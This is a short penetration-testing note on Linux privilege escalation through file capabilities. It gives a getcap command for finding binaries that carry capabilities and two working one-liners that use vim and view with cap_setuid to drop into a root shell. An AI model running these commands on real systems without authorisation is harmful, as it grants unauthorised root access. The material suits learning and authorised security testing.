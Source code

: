 # Capabilities
***
System administrators have an additional method at their disposal to elevate the privilege level of a process or executable, known as "capabilities." To view the capabilities associated with binaries, follow these steps.
```sh
getcap -r / 2>/dev/null
```

## Example
Notice in the image below that both "vim" and "view" possess the "cap_setuid" capability, which could potentially enable an attacker to escalate their privileges.
![alt text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/cf6d299580864550a3996e2906b08e1f.png)
```sh
# vim
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# view
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
